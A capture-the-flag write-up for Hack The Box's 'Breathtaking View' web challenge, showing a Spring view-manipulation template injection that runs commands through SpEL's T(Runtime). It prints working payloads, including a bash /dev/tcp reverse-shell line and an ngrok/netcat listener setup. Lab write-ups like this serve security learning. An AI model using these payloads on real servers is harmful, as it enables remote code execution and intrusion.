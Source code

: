 ```yaml
---
title: Breathtaking View
date: 2024-10-27
---
```


# Breathtaking View

![Breathtaking View - thumbnail](/ctf/hack-the-box/challenges/web/breathtaking-view/thumbnail.jpg)

## Box description

Check out my new website showcasing a breathtaking view—let's hope no one can 'manipulate' it!

## Challenge Description

This challenge is a web application written in **Spring Boot**. It provides a simple interface with registration and
login functionality. Once logged in, we are presented with the following page:

![View 1](/ctf/hack-the-box/challenges/web/breathtaking-view/view1.png)

Clicking the "Change Language" button redirects to another page:

![View 2](/ctf/hack-the-box/challenges/web/breathtaking-view/view2.png)

Looking at the URL, we can see that the language is passed as a parameter:

```
http://localhost:1337/?lang=fr
```

## Code Review

### IndexController.java

```java
@Controller
public class IndexController {
    @GetMapping("/")
    public String index(@RequestParam(defaultValue = "en") String lang, HttpSession session, RedirectAttributes redirectAttributes) {
        if (session.getAttribute("user") == null) {
            return "redirect:/login";
        }

        if (lang.toLowerCase().contains("java")) {
            redirectAttributes.addFlashAttribute("errorMessage", "But.... For what?");
            return "redirect:/";
        }

        return lang + "/index";
    }
}
```

Upon reviewing the `IndexController.java` code:

- The `index` method handles the rendering of the main page and takes in a `lang` parameter, which defaults to `"en"`.
- If the `user` session attribute is missing, the method redirects to the login page.
- If the `lang` parameter contains the string `"java"`, the method sets an error message and redirects to the index page.
- Otherwise, it returns a path based on `lang` by appending `"/index"` to it.

The concatenation of `lang` with `"/index"` could allow us to inject code into the `lang` parameter, leading to a **Server-Side Template Injection (SSTI)**
vulnerability.

## Exploitation - Server-Side Template Injection (SSTI)

### Proof of Concept (PoC)

To confirm SSTI vulnerability, we inject a simple expression into the `lang` parameter:

```plaintext
__${7*7}__::.x
```

Using this payload (sourced
from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)),
we receive the following response:

```plaintext
Error resolving template [49], template might not exist or might not be accessible by any of the configured Template Resolvers
```

The payload `7*7` evaluated to `49`, confirming that SSTI is possible. We can now proceed to exploit this vulnerability.

### Exploit Strategy

Our goal is to inject Java code into the `lang` parameter to execute system commands on the server. However, since any
input containing the string `"java"` triggers a redirection, we need a workaround.

#### Using the T() Class

In Java, the `java.lang` package is imported by default. By leveraging the `T` operator from **Spring Expression
Language (SpEL)**, we can call methods like `Runtime.getRuntime()` without specifying `java.lang`.

### Payload

We start with a payload to list files in the current directory:

```java
__${T(Runtime).getRuntime().exec("ls")}__::.x
```

#### Response

```
Error resolving template [java.lang.UNIXProcess@590062a7], template might not exist or might not be accessible by any of the configured Template Resolvers
```

The response shows `java.lang.UNIXProcess@590062a7`, indicating that the `exec()` command executed successfully.
However, we don’t see the output of the `ls` command directly because `exec()` returns a `Process` object, not a string.

To capture command output, we need to redirect it to a more accessible place, such as a reverse shell.

### Establishing a Reverse Shell

To create a reverse shell, we start by setting up a listener on our machine and then use the following payload to create
a shell script on the server:

```java
__${T(Runtime).getRuntime().exec(new String[]{"bash", "-c", "echo 'bash -i >& /dev/tcp/ip/port 0>&1' > shell.sh"})}__::.x
```

Looking at the docker container file, we can see the `shell.sh` file created

### Executing the Shell Script

To run the shell script and establish the reverse shell, we use the following payload:

```java
__${T(Runtime).getRuntime().exec(new String[]{"bash", "-c", "bash shell.sh"})}__::.x
```

Upon execution, we successfully gain a reverse shell and can interact with the server.

With the reverse shell active, we proceed to list files in the root directory:

```bash
root@9348cae2ee45 /# ls
app
bin
boot
dev
etc
flag_lyh3sdrgCjCI_.txt
home
...
```

Reading the flag file:

```bash
root@9348cae2ee45 /# cat flag_lyh3sdrgCjCI_.txt
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We now have the fake flag!

::: danger **Note for HTB Server**
Direct netcat connections to HTB IPs may not work. Use **ngrok** or similar tunneling tools to create a TCP tunnel to
your machine and connect with netcat.

```bash
ngrok tcp 12345
nc -lnv 12345
```

:::

![Breathtaking View - pwned](/ctf/hack-the-box/challenges/web/breathtaking-view/pwned.png)

## References

- [HackTricks - SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)
